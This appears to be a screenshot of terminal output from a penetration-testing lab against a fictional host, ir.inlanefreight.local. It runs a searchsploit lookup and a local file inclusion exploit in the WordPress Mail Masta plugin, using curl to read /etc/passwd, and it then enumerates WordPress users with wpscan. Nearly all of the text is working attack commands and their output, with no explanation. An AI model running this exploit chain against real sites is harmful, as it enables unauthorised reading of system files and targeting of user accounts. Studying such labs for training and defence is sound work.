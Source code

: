 ```
┌──(nabla㉿kali)-[~]
└─$ searchsploit 'mail masta' --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

[SNIP]

{
  "Title": "WordPress Plugin Mail Masta 1.0 - Local File Inclusion",
  "Codes": "",
  "Path": "/usr/share/exploitdb/exploits/php/webapps/40290.txt"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/40290.txt

[+] Date: [23-8-2016]
[+] Autor Guillermo Garcia Marcos
[+] Vendor: https://downloads.wordpress.org/plugin/mail-masta.zip
[+] Title: Mail Masta WP Local File Inclusion
[+] info: Local File Inclusion

[SNIP]

Typical proof-of-concept would be to load passwd file:

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

```
┌──(nabla㉿kali)-[~]
└─$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ wpscan --url http://ir.inlanefreight.local --enumerate u -t 100

[SNIP]

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tom
```